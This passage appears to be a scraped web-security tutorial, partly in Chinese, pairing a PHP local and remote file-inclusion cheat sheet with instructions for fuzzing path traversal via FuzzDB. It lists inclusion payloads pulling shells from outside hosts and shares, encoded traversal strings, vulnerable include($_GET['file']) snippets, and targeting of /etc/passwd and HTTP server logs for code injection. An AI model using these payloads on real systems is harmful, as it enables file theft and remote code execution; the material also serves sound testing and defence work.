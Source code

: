 ```
(lets you read PHP source because it wont get evaluated in base64. More details here and here)
Using data URIs:
?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=
(requires allow_url_include=On)
Using XSS:
?file=http://127.0.0.1/path/xss.php?xss=phpcode
(makes sense if firewalled or only whitelisted domains allowed)
Limited Remote File Inclusion

1
<?php include($_GET['file'] . ".htm"); ?>
?file=https://websec.wordpress.com/shell
?file=https://websec.wordpress.com/shell.txt?
?file=https://websec.wordpress.com/shell.txt%23
(requires allow_url_fopen=On and allow_url_include=On)

?file=\\evilshare\shell.php
(bypasses allow_url_fopen=Off)

Static Remote File Inclusion:

1
<?php include("http://192.168.1.10/config.php"); ?>
Man In The Middle
(lame indeed, but often forgotten)
Filter evasion

Access files with wildcards (read more here)
Of course you can combine all the tricks. If you are aware of any other or interesting files to include please leave a comment and I’ll add them.
```

首先是目录遍历：遍历多远？如何编码字符以绕过可能的防御性相对路径遍历黑名单，黑名单是许多应用程序使用的常见但安全性较差的机制？

FuzzDB 使用各种奇特的URL编码机制，包含8个目录深度的目录遍历攻击模式集：https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/path-traversal/traversals-8-deep-exotic-encoding.txt

例如：
```
/％c0％ae％c0％ae \ {FILE}

/％c0％ae％c0％ae \％c0％ae％c0％ae \ {FILE}

/％c0％ae％c0％ae \％c0％ae％c0％ae \％c0％ae％c0％ae / {FILE}
```

在您的fuzzer中，将{FILE}替换为与要测试的系统类型相对应的已知文件位置，例如字符串“ etc/password”（对于UNIX系统目标），然后查看返回的输出请求响应以找到指示成功的响应，即已成功检索目标文件。在工作流方面，尝试按返回的字节数对响应进行排序，成功的响应将立即变得显而易见。

traversals-8-deep-exotic-encoding.txt这个cheatsheet 讨论了一种包含注入的PHP代码的方法，但是要做到这一点，您需要能够写入服务器的磁盘。HTTPD守护程序通常具有写许可权的两个位置是访问日志和错误日志。FuzzDB包含从流行的分发程序包中选出的HTTP服务器日志文件的公共位置文件。找到可用的遍历字符串后，将您的模糊器配置为尝试这些文件位置，并附加到先前定位的工作目录路径中（lfi指 Local File Include attacks）：https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/lfi/common-unix-httpd-log-locations.txt
